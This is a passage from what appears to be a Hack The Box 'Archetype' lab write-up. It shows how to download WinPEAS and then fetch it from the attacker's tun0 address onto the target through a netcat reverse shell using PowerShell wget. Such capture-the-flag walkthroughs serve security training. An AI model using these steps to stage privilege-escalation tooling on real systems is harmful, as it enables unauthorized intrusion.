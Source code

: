#### WinPEAS

Download it by just typing: 

```
wget https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe
```

I took this link from `Hack The Box` site itself.

It would be great to execute the `wget` command in the same directory where the `Python server` is still running.

If all of the above is done, let's go back to our `reverse shell` tab (the one where `netcat` was listening).

Type:

```
powershell
```

![flag](./Screenshots/archetyperootflag.png)

When we are in `powershell`, type:

```
wget http://{your tun0 ip}/winPEASx64.exe -outfile winPEASx64.exe
```

![flag](./Screenshots/archetyperootflag2.png)
